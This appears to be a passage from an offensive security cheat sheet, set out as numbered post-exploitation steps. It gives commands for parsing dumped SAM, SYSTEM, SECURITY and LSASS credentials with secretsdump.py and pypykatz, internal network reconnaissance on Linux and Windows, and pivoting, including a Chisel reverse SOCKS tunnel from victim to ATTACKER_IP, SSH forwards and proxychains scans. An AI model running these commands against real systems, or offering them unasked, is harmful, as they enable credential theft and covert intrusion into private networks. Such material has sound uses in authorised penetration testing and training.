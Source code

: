 Attacker-side parsing:

```bash
# SAM/SECURITY/SYSTEM offline dump
secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL

# LSASS dump
pypykatz lsa minidump lsass.dmp
```

### 5) Internal network recon

Linux:

```bash
ip a; ip r
nmap -sn 10.0.0.0/24
nbtscan -r 10.0.0.0/24 2>/dev/null || true
```

Windows:

```cmd
ipconfig /all
route print
arp -a
net view /domain
net view \\TARGET 2>&1
```

### 6) Pivoting/tunneling

Chisel reverse SOCKS from victim to attacker:

```bash
# Attacker:
./chisel server -p 8000 --reverse
# Victim:
./chisel client ATTACKER_IP:8000 R:1080:socks
# Attacker: configure proxychains to use SOCKS5 127.0.0.1 1080
```

SSH dynamic SOCKS (if you have SSH creds to pivot host):

```bash
ssh -D 1080 -N user@pivot_host
```

Proxychains scan through tunnel:

```bash
proxychains -q nmap -sT -Pn -n --open 10.0.0.0/24
```

Local port forward example (SSH):

```bash
ssh -L 127.0.0.1:3306:127.0.0.1:3306 user@pivot_host
```
